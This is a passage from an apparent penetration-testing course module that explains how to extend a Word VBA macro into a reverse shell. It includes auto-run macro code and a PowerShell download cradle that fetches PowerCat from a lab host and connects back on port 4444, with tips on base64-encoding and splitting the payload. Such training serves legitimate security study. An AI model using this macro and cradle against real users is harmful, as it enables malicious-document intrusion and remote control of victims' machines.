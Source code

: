 Let's wrap this section up by extending the code execution of our current macro to a reverse shell with the help of [*PowerCat*](https://github.com/besimorhino/powercat). We'll use a base64-encoded [PowerShell download cradle](https://gist.github.com/HarmJ0y/bb48307ffa663256e239) to download PowerCat and start the reverse shell. The encoded PowerShell command will be declared as a *String* in VBA.

We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them.

To do this, we'll click on the *Macros* element in the *View* tab, select *MyMacro* in the list and click on *Edit* to get back to the macro editor. Next, we'll declare a string variable named *Str* with the [*Dim*](https://docs.microsoft.com/en-us/dotnet/visual-basic/language-reference/statements/dim-statement) keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat. The following listing shows the declaration of the variable and the modified line to run the command stored as a string in the variable.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

> Listing 5 - Declaring a string variable and provide it as a parameter

Next, we'll employ a PowerShell command to download PowerCat and execute the reverse shell. We'll encode the command with base64 to avoid issues with special characters as we've dealt with in previous Modules. The following listing shows the PowerShell command before base64-encoding.

Caution

UTF-16LE is the default character set for base64 encoding that PowerShell supports. If we choose any other character set, our payload won’t work.

To base64-encode our command, we can use *pwsh* on Kali as we did in the Common Web Application Attacks Module.

```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

> Listing 6 - PowerShell download cradle and PowerCat reverse shell

We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the *Str* variable. To do this, we store the PowerShell command in a variable named *str* and the number of characters for a chunk in *n*. We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script. A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro.
